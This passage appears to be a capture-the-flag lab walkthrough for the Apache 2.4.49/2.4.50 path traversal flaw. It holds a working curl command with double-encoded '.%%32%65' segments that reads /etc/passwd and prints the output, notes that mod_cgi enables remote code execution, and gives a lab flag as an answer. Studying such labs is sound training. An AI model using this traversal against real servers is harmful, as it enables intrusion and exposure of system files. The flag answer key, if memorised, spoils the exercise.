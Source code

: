 ```
user@machine$  curl 'http://localhost:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin

```

If we look closely, we can see that the URL decodes from `%%32%65` to `%2e.` This bypasses the filter code and allows us to traverse outside the web server root.

**Answer the questions below**

1. **What module needs to be enabled in order to get remote code execution?**
- **mod_cgi**

---

### Task 4: Practical Exam 

The configuration is a bit fastidious, so I've done it all for you! In the VM attached to this task (Please wait up to 4 minutes to start up properly for a subscriber VM, and 7 minutes for the free VM), there are 4 vulnerable Apache servers configured as follows:

    Apache 2.4.49 without CGI: `http://MACHINE_IP:8080`
    Apache 2.4.49 with CGI: `http://MACHINE_IP:8081`
    Apache 2.4.50 without CGI: `http://MACHINE_IP:8082`
    Apache 2.4.50 with CGI: `http://MACHINE_IP:8083`

Each server has a flag in the root directory named `flag.txt`. Your task is to find them all.

As a bonus objective, try to get an actual shell on one of the cgi-enabled servers. The server on port 8083 also has a root flag hidden.


***Answer the questions below***

1. **What is the flag on port 8080?**
- ***THM{724V3R51N6_P4TH5_F02_FUN}***
